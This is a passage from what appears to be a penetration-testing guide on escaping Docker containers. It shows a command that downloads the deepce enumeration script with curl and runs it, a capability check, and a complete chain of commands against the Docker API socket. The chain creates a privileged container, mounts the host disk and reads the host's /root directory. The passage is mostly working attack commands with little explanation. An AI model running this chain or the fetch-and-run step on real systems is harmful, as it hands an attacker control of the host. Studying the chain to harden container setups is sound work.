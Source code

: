 #### Advanced Container Reconnaissance

```bash
# Using Deepce for comprehensive enumeration
curl -sL https://github.com/stealthcopter/deepce/raw/main/deepce.sh -o deepce.sh
chmod +x deepce.sh
./deepce.sh

# Container process isolation check
cat /proc/self/status | grep CapEff
```

**Output Analysis:**
```
CapEff:	00000000a80425fb
```
This capability set includes NET_ADMIN, SYS_ADMIN, and other privileged capabilities that indicate a non-default container configuration.

### Docker API Exploitation

The Docker socket (unix:///var/run/docker.sock) provides direct access to the Docker API, which can be leveraged for container escapes.

```bash
# Test if Docker socket is accessible
curl -s --unix-socket /var/run/docker.sock http://localhost/version

# List containers via API
curl -s --unix-socket /var/run/docker.sock http://localhost/containers/json | jq

# Create a privileged container for escape
curl -s -XPOST --unix-socket /var/run/docker.sock -H "Content-Type: application/json" \
  http://localhost/containers/create \
  -d '{"Image":"alpine","Cmd":["/bin/sh"],"DetachKeys":"Ctrl-p,Ctrl-q","HostConfig":{"Privileged":true}}'
```

**Complete Docker API Exploitation Chain:**

```bash
# 1. Create privileged container
CONTAINER_ID=$(curl -s -XPOST --unix-socket /var/run/docker.sock -H "Content-Type: application/json" \
  http://localhost/containers/create \
  -d '{"Image":"alpine","Cmd":["/bin/sh","-c","sleep 10000"],"HostConfig":{"Privileged":true}}' | jq -r .Id)

# 2. Start the container
curl -s -XPOST --unix-socket /var/run/docker.sock http://localhost/containers/$CONTAINER_ID/start

# 3. Execute command to mount host filesystem
curl -s -XPOST --unix-socket /var/run/docker.sock -H "Content-Type: application/json" \
  http://localhost/containers/$CONTAINER_ID/exec \
  -d '{"Cmd":["sh","-c","mkdir -p /mnt/host && mount /dev/sda1 /mnt/host"]}'

# 4. Access host filesystem through new container
curl -s -XPOST --unix-socket /var/run/docker.sock -H "Content-Type: application/json" \
  http://localhost/containers/$CONTAINER_ID/exec \
  -d '{"Cmd":["sh","-c","ls -la /mnt/host/root"],"AttachStdout":true,"AttachStderr":true}' \
  | jq -r .Id > exec_id.txt

curl -s -XPOST --unix-socket /var/run/docker.sock -H "Content-Type: application/json" \
  http://localhost/exec/$(cat exec_id.txt)/start \
  -d '{"Detach":false,"Tty":false}'
```
